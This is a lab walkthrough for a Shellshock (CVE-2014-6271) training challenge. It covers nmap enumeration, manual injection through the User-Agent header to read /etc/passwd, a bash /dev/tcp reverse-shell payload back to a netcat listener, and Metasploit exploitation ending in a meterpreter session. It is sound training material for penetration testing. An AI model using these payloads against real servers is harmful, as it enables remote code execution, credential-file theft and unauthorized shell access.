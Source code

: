 # 🔬Bash

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Shellshock](https://attackdefense.com/challengedetailsnoauth?cid=1911)
>
> * Target IP: `192.54.253.3`
> * **Bash Exploitation** - [CVE-2014-6071](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271)

### Enumeration <a href="#enumeration" id="enumeration"></a>

```bash
nmap 192.54.253.0/24
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
nmap 192.54.253.3
nmap -sV 192.54.253.3
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Check the website via a browser:
  * `http://192.173.104.3/`
* View Page Source
  * `http://192.173.104.3/gettime.cgi`
  * `gettime.cgi` script can be utilized as the attack vector

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Check if the server is vulnerable to ShellShock

```bash
nmap -sV --script http-shellshock --script-args http-shellshock.uri=/gettime.cgi 192.54.253.3
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Manual Exploitation <a href="#manual-exploitation" id="manual-exploitation"></a>

* [Shellshock exploitable environment](https://github.com/opsxcq/exploit-CVE-2014-6271)
* To inject special characters into the `user-agent` HTTP header, [BurpSuite](https://portswigger.net/burp) can be used.
  * Configure FoxyProxy on Firefox, click on Burp Suite in FoxyProxy and run Burp Suite
  * Inside Proxy menu, turn **Intercept On**
* Reload the `/gettime.cgi` webpage in Firefox and intercept the response in BurpSuite and send it to `repeater`.

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Send the request to the **Repeater**
* Replace `User-Agent:` value with characters:

```bash
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```

* **Send** the request and check the Response

<figure><img src="../../../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
() { :; }; echo; echo; /bin/bash -c 'id'
() { :; }; echo; echo; /bin/bash -c 'ps -ef'
```

<figure><img src="../../../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

### Reverse Shell <a href="#reverse-shell" id="reverse-shell"></a>

* Set up a listener

```bash
nc -nvlp 1234
```

* Open Burp Suite and change the command to connect to the `netcat` listener of the Kali VM. The payload will be:

```bash
() { :; }; echo; echo; /bin/bash -c 'bash -i >&/dev/tcp/192.173.104.2/1234 0>&1'
```

* [About the shell](https://explainshell.com/explain?cmd=bash+-i+%3E%26%2Fdev%2Ftcp%2F192.173.104.2%2F1234+0%3E%261)

<figure><img src="../../../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Automatic Exploitation <a href="#automatic-exploitation" id="automatic-exploitation"></a>

```bash
service postgresql start && msfconsole
msf5 > search shellshock
```



<figure><img src="../../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

```bash
msf5 > use 0
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > options
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set RHOSTS 192.54.253.3
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set TARGETURI /gettime.cgi
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > run
```

<figure><img src="../../../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

```bash
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > use 5
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > options
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RHOSTS 192.54.253.3
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /gettime.cgi
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

```bash
meterpreter > ls
meterpreter > cat /etc/passwd
meterpreter > sysinfo
meterpreter > getuid
```

<figure><img src="../../../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>









